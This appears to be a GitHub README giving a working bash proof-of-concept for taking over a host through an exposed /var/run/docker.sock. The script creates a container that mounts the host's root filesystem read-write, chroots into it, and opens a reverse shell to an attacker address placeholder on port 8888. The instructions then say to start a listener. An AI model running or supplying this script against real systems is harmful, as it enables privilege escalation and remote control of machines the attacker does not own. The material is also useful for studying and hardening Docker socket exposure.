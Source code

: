 # Docker.sock-environment-takeover
![](https://)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in this article. 

##Proof of Concept

`#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`

##Add the attacker ip address to above bash script and start a listener on attacker machine on port 8888. Check the screenshots if you don't understand.

![](https://)
![](https://)


##References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/
